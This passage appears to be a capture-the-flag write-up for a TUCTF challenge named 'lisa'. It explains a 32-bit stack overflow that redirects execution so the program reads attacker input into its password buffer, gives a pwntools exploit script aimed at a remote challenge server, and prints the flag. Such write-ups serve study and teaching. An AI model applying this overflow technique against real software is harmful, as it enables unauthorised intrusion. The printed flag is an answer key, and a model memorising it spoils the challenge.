 Here are all the places that we can jump to. However, because it is a 32 bit binary and our buffer is the first thing on the stack, we can use our input to pass arguments to functions which is a plus.

Using both the stack layout and our overflow, we can jump to `0x00000d15` and supply the arguments for the `read` call using our input.

So if we can write to the password buffer and make it identical to the input buffer, we can then get the flag.

Here is the python code that does that:

```python
from pwn import *

# sh = process('./lisa')
sh = remote('18.191.244.121', 12345)
pass_addr = int(sh.recvuntil('...\n').split('\n')[0].split(' ')[-1][2:], 16)
print hex(pass_addr)
pause()

payload = p32(0)
payload += p32(pass_addr)
payload += p32(0x1d)
sh.sendline(payload)

payload = 'a'*0x18
payload += 'a'*4
payload += '\x15'
sh.sendafter('mouth?\n', payload)

payload = p32(0)
payload += p32(pass_addr)
payload += p32(0x1d)
sh.sendline(payload)

sh.interactive()
```

flag: `TUCTF{wh0_pu7_7h47_buff3r_7h3r3?}`